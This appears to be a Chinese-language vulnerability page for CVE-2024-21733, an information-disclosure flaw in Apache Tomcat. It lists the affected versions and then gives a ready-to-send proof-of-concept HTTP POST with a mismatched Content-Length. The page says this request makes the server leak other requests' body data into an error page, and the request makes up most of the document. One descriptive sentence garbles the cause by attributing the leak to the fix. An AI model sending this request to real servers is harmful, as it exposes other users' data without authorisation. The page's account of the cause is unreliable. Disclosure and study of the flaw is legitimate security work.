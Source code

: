 ## Apache Tomcat存在信息泄露漏洞( CVE-2024-21733)

Apache Tomcat 信息泄露漏洞（CVE-2024-21733）情报。Apache Tomcat 是一个开源 Java Servlet 容器和 Web 服务器，用于运行 Java 应用程序和动态网页。Coyote 是 Tomcat 的连接器，处理来自客户端的请求并将它们传递Tomcat 引擎进行处理。攻击者可以通过构造特定请求，在异常页面中输出其他请求的body 数据,修复版本中通过增加 finally 代码块,保证默认会重设缓冲区 position 和 limit 到一致的状态，从而造成信息泄露。


## 影响版本
```
从8.5.7到8.5.63
9.0.0-M11到9.0.43
```


## poc
```
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

![image](../../images/15933e83-bb51-4d91-ba49-c31ab8d27cdb.png)

